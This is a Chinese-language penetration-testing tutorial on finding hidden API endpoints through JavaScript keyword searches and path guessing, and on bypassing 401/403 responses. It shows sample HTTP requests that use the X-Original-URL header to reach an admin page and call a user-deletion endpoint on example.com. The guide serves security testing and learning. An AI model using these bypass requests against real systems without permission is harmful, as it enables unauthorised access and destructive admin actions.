 ## 1. 场景

- 一个完整的操作页面一般有增, 删, 改, 查功能的接口; 隐藏的接口可能存在未授权
- 无法登录的平台或者空白页

- 需要特定条件才能使用的功能, 如管理员权限


## 2. API 路径

### 2.1. 通用 API 查找

先使用 FindSmothing 查找 API 路径, 保存到本地后补全 BaseURL 和 ID

然后在 Burp 中拼接路径，使用所有协议跑一遍

放在 Open Multiple URLs 中手动访问

最后使用浏览器的控制台检索 JS 文件中的可能存在 API 调用的关键字

```
type:"POST"
type: "GET"
post("
get("
ashx?
ashx
url:
url:"
url:'
path:
path:"
path:'
action?
data
params
```

### 2.2. 根据当前业务的相似功能或历史数据包查找 API

遇到一个功能点没有找到隐藏接口

如某简历生成业务有保存，导出和上传功能

但是只找到了保存的 API `/v4/scrm/api/crowd/save` 

 那么可以尝试在 JS 文件中检索 `/v4/scrm/api/crowd` 

若没有则检索 `/scrm/api/crowd` 、`/api/crowd` 、`/crowd` 

> 检索时要加 `/` 在前没有就加在后面 `crowd/`
>
> 逐步缩小范围

找不到就猜，如检索 `/update` 、`/export` 

## 3. Bypass

HTTP Status Code 为 `200`, `401`, `403` 时可尝试 Bypass

### 3.1. 添加请求参数

无数据的情况下可在 Request Body 中添加请求参数

```http
GET /test?pageNo=1&pageSize=10 HTTP/2
Host: example.com


```

```http
POST /test HTTP/2
Host: example.com

pageNo=1&pageSize=10
```

```http
POST /test HTTP/2
Host: example.com

{
"pageNo" : 1,
"pageSize": 10,
}
```

### 3.3. X-Original-URL

访问管理员页面返回 `403` 

```http
GET /admin HTTP/2
Host: example.com


```

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8

"Access denied"
```

在 Request Header 中添加 `X-Original-URL` 字段访问主页返回 `404` 

```http
GET / HTTP/2
Host: example.com
X-Original-URL: /invalid


```

```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8

"Not Found"
```

> 若返回 `200` 则证明 `X-Original-URL` 无效,
>
> 若返回 `404` 则证明 `X-Original-URL` 有效.

通过 `X-Original-URL` 访问管理员页面

```http
GET / HTTP/2
Host: example.com
X-Original-URL: /admin


```

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
<a href="/admin/delete?username=carlos">Delete</a>
</html>
```

访问管理员页面中的 API

```http
GET ?username=carlos HTTP/2
Host: example.com
X-Original-URL: /admin/delete


```

```http
HTTP/2 302 Found
Location: /admin


```

---

References

- [Js在漏洞挖掘中的作用-接口篇](https://mp.weixin.qq.com/s/tN7bi0gybtNNuU_G1gyBRQ)
- [干货 | 渗透中403/401页面绕过的思路总结](https://www.secpulse.com/archives/185440.html)